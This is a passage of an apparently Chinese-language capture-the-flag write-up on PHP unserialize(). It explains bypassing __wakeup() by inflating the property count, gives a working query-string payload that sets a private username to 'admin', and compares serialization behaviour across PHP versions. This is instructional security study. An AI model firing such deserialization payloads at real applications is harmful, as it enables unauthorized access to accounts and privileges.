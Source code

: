 其中"\\000"是空字符，使用phpstudy，php版本为7.3.4搭建环境测试时，空字符在网页中完全不输出（不占位置），但在字符串中会计入长度，而他们是标记参数类型的重要字符，因此必须要有，因此传入网站时用URL编码为"%00"。另一个问题，源码中有一个魔术函数：

```php
function __wakeup(){
        $this->username = 'guest';
    }
```

该函数会在调用 `unserialize()` 函数时优先调用，强行修改"username"参数，因此需要绕过这个 `__wakeup()` ，在PHP5<5.6.25，PHP7 < 7.0.10时，传入的反序列化字符串中如果对象的变量个数参数大于实际的变量个数，那么就会绕过"__wakeup"，因此最终传入的payload：

```php
?select=O:4:"Name":3:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";i:100;}
```

Name中实际上只有两个参数，将数量参数修改为3即可实现绕过。

### PHP

个人感觉本题是想考察"__wakeup"的绕过，但随着php版本的更新，序列化对public与其他两种类型的识别也发生了变化。在PHP7=7.3.4的环境中测试，传入的对象为public类型的参数时，"username"和"password"被当作private类型处理并序列化为了对象：

```php
O:4:"Name":2:{s:8:"username";s:5:"admin";s:8:"password";i:100;}

-> object(Name)#1 (2) {
    ["username":"Name":private]=>
    string(5) "guest"
    ["password":"Name":private]=>
    int(100)
}
```

猜测在这里，php优先根据变量名称进行匹配，弱化了类型的区别直接赋值

但使用PHP5=5.6或PHP7=7.1时private类型与public类型进行了严格区分，不同类型"username"被识别不同的变量：

```php
O:4:"Name":2:{s:8:"username";s:5:"admin";s:8:"password";i:100;}

->
object(Name)#1 (4) {
  ["username":"Name":private]=>
  string(5) "guest"
  ["password":"Name":private]=>
  string(6) "yesyes"
  ["username"]=>
  string(5) "admin"
  ["password"]=>
  int(100)
}
```

这里严格区分了不同类型的变量，对于原来不存在的"public"类型的"username"直接新建并赋值，对于序列化中不存在的"private"类型的"username"通过类定义获取，因此就有了四个变量。
